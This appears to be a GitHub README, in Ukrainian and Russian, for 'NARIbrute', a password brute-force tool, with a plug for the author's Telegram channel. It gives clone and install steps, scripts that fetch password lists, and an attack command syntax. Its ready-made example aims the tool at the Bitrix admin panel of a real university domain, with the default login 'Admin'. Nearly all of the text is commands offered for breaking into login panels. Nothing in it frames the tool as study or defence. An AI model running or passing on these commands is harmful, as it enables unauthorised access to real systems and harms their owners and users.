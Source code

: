 <h1 align="center">Подпишись на мій телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">N∆RIbrute</h3>
<h3 align="center">Установка</h3><br>
Клонуем git <br>
 
```shell
git clone https://github.com/Samuraianonweb/NARIbrute
```
<br>
 
```shell
cd NARIbrute
```
<br>

Установка бази паролів (рандом по 500 паролів) <br>
```
python2 baza_pass.py
```
Якщо потрібно скачати базу за номером. Всі бази:https://github.com/Samuraianonweb/password<br>
Id бази це перші цифри (id)_500.txt<br>

```shell
python2 id_baza.py
```
<h3 align="center">Команда атаки</h3>
 
```shell
python2 brute -url -login pass.txt 
```
-url = Посилання на панель<br>
-login = Логін (якщо відомо , якщо ні вставляємо Admin/admin)<br>
Приклади готової команди <br>
```shell
python2 brute https://id.sechenov.ru/bitrix/admin Admin pass.txt
```

